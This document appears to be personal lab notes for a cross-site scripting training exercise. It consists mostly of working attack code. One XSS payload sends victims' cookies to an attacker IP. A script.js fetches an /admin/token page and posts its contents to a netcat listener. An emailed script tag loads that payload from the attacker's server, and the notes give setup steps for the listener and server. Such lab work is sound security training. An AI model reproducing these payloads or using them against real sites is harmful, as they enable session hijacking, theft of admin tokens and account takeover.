

---
---

# IML - Cross-Site Scripting: Ep.6 – Further Exploitation


```java
<script>document.location="http://10.102.179.231:8000/?cookie="+document.cookie;</script>
```


- **<u>Token and username received</u>**


- Create script (script.js)


```javascript
var sensitive_data = new XMLHttpRequest();
sensitive_data.open("GET", "/admin/token", true);
sensitive_data.responseType = "text";

sensitive_data.onload = () => {
    if (sensitive_data.status >= 200 && sensitive_data.status < 400) {
        var body = sensitive_data.responseText;
        var send_data = new XMLHttpRequest();
        send_data.open("POST", "http://<IP>:<KALI_NC_PORT>", true);
        send_data.send("page_body=" + body);
    } else {
        // do nothing
    }
};

sensitive_data.send();

```


- Change IP and Port

- Run Python server in same dir as script




- Set up nc listener on port specified in script


- Send email with the src tag (kali IP and the Port of the python server)


```javascript
<script src="http://<kali IP>:<kali port>/script.js"></script>
```

- *Sometimes need to reset the machine on this one cus it doesn’t work first time*


